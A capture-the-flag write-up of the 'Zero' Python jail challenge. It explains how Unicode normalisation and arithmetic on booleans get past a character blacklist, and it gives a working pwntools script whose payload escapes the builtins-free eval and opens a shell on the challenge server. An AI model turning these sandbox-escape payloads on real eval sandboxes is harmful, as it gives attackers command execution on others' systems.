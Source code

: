 # Zero
![challenge](challenge.png)
### Challenge:
##### Zero letters, zero numbers, zero underscores, zero builtins, and zero hope of escaping.
##### Author: SteakEnthusiast

##### Links: ```nc 35.222.133.12 5000```
##### Files: [zero.zip](zero.zip)

### Solution:

Banger challenge, my favourite from the ctf.

Looking at the source code we can pretty much see it's a standard pyjail with a very oppressive blacklist, our code also gets eval-ed without any builtins functions:

```py
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```

We can bypass the character blacklist by using [python's unicode compatibility](https://peps.python.org/pep-0672/), more specifically i used italics for the letters (i used this [site](https://lingojam.com/ItalicTextGenerator) to convert the letters). 
For the underscores we can use the unicode character ```＿``` (U+ff3f), which when put together with a normal underscore gets normalized to a double underscore. 
The only thing we're missing is numbers, thankfully we're inside an eval, i used this function to replace the use of numbers in my payload:

```py
def true(n):
    return (("(()==())+"*n)[:-1])
```

```()==()``` evaluates to ```True```, which in turn is 1, if we do ```True+True``` we get 2, see where i'm going?
I initially were using an italic ```True``` instead of ```()==()``` but for some reason it was messing up in remote while it worked fine in local so i just changed it.

Once we're able to bypass the blacklist the only thing standing between us and the flag is the lack of builtins, thankfully we can use some well known payloads to get the flag, specifically i used one from [here](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#no-ascii-letters-no-double-underscores-no-builtins-no-quotesdouble-quotes-inside-eval--python38).

Putting it all together:
```py
from pwn import *

r = remote("35.222.133.12", 5000)

def true(n):
    return (("(()==())+"*n)[:-1])

# payload from https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#no-ascii-letters-no-double-underscores-no-builtins-no-quotesdouble-quotes-inside-eval--python38
payload = "[𝘺:=()._＿𝘥𝘰𝘤＿_, 𝘢:=𝘺["+true(19)+"],()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_["+true(1)+"]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_()["+true(104)+"].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(𝘺["+true(34)+"]+𝘢).𝘴𝘺𝘴𝘵𝘦𝘮(𝘢+𝘺["+true(56)+"])]"

r.sendline(payload)
r.interactive()
#uoftctf{zero_security_too_apparently_lmao}
```

Flag: ```uoftctf{zero_security_too_apparently_lmao}```